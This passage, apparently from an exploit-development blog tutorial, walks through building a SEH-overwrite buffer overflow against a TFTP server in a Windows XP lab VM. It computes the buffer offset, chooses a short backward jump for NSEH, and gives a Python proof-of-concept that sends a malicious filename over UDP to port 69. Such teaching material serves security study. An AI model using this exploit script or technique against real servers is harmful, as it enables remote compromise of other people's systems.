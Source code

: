 
[![](https://2.bp.blogspot.com/-LsuSt8E8Gsk/UK58rfWezdI/AAAAAAAAAGk/i22Ucpti9p0/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_033.png)](https://2.bp.blogspot.com/-LsuSt8E8Gsk/UK58rfWezdI/AAAAAAAAAGk/i22Ucpti9p0/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_033.png)



Scroll up till you see the beginning of your `\x41`'s.


[![](https://4.bp.blogspot.com/-7WjFjwezJR4/UK59pScZkEI/AAAAAAAAAGs/CwqyHSLcjXM/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_034.png)](https://4.bp.blogspot.com/-7WjFjwezJR4/UK59pScZkEI/AAAAAAAAAGs/CwqyHSLcjXM/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_034.png)


We see that it is 5D4 bytes till the beginning of our `\x41`'s or 1492 bytes. We decide to do a jump backwards to the beginning of our buffer. The farthest backwards jump we can do is `\xeb\x80\x90\x90`.

So now we will have it so that NSEH looks like this:

`nseh = "\xeb\x80\x90\x90"`

Except just put that in for the part in the code where NSEH is overwritten (well that minus the nseh = part).

Testing it Out Again

Ok with those changes our code looks like this:

```python
import socket 
host = "127.0.0.1"
port = 69 

filename = "A" * 1492
filename += "B" * 4 # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0"

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```


Lets test that out:

[![](https://1.bp.blogspot.com/-7xcddfBwT5w/UK6D1LHjt5I/AAAAAAAAAHA/GSxpGbU4tSc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_035.png)](https://1.bp.blogspot.com/-7xcddfBwT5w/UK6D1LHjt5I/AAAAAAAAAHA/GSxpGbU4tSc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_035.png)



So we can see we go back 7E or 126 bytes from where we execute our jump (makes sense as we jump 80 bytes but 2 of those are taken up by the actual jump instruction which takes up 2 bytes. Other 2 bytes of the 4 byte overwrite are taken up by our `\x90` NOP instructions)
